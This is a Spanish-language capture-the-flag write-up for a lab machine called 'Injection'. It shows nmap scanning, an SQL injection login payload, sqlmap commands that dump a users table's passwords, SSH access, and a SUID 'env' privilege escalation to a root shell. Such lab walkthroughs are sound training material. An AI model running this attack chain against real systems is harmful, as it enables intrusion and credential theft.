 Maquina: Injection

Autor: El Pinguino de Mario 

Dificultad: Muy Facil

![Screenshot 2024-11-09 082542](https://github.com/user-attachments/assets/beff2ae3-6fc1-423c-9942-ee17e022a9fe)

ping 172.17.0.2 -c 1

![Screenshot 2024-11-09 082716](https://github.com/user-attachments/assets/49213ad6-4d2d-4b3d-bc3c-2cbbc52a0c22)

nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

![Screenshot 2024-11-09 082735](https://github.com/user-attachments/assets/d95bd4a3-c56a-40b1-9b07-f9d5d7f2504f)

Accedemos a la web y encontramos un panel de login e intentamos explotarlo con una SQL Injection
hppt://172.17.0.2
User: admin' or 1=1-- -
Password: cualquier cosa
No conseguimos bypasearlo

![Screenshot 2024-11-09 083004](https://github.com/user-attachments/assets/150da53c-3e35-4470-bb0e-2338038a81ac)

Vamos a probar una inyección SQL

sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch

![Screenshot 2024-11-09 083557](https://github.com/user-attachments/assets/d435b4c8-6eff-4c0b-9692-74ce3c7824d8)

sqlmap -u http://172.17.0.2/index.php --forms -D register --tables --batch

![Screenshot 2024-11-09 083619](https://github.com/user-attachments/assets/66b1f52d-5f4a-4ffd-9c10-c53960be4cc5)

sqlmap -u http://172.17.0.2/index.php --forms -D register -T users --columns --batch

![Screenshot 2024-11-09 083644](https://github.com/user-attachments/assets/d3397b42-e733-4c92-884a-0672f800f1b5)

Por último, listamos las dos columnas que hay: passwd y usernames, y tenemos credenciales

![Screenshot 2024-11-09 083708](https://github.com/user-attachments/assets/64ee63fd-ec08-4d03-b11c-330228afc80c)

sqlmap -u http://172.17.0.2/index.php --forms -D register -T users -C passwd,usernames --dump --batch

Ahora, si accedemos a la web, nos dice lo siguiente:

![Screenshot 2024-11-09 083851](https://github.com/user-attachments/assets/f09fa5eb-175c-46ca-8bd1-fd715a1888dd)

ssh dylan@172.17.0.2

![Screenshot 2024-11-09 083940](https://github.com/user-attachments/assets/f7e7b3ae-bcad-4d29-a974-0061dd61f303)

find / -perm -4000 2>/dev/null
Encontramos el binario env

![Screenshot 2024-11-09 084245](https://github.com/user-attachments/assets/dcefe9d7-fc4a-4de7-bf93-2de3a2d23519)

Vamos a explotarlo haciendo una búsqueda en GTFOBins
/usr/bin/env /bin/sh -p
whoami

![Screenshot 2024-11-09 084333](https://github.com/user-attachments/assets/1c8f5581-a48d-44c3-ab65-339d7d6972de)
